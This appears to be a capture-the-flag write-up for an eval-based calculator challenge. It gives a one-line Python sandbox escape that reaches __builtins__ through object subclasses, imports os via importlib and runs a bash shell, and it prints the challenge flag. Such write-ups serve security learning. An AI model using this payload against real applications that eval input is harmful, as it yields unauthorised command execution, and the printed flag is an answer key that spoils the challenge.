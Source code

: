 # ecal
Solved by: benkyou

### Question:
let's eval the calculator

### Solution:
Obtain builtins from subclasses then use `importlib.import_module()` to get pass the import restriction.
```python
''.__class__.__bases__[0].__subclasses__()[-1].__init__.__globals__['__builtins__']['__import__']('importlib').import_module('os').system('bash')
```

**Flag:** `FMCTF{ev4luat1ng_calc_m5y_b3c0me_d4ng3r0us}`
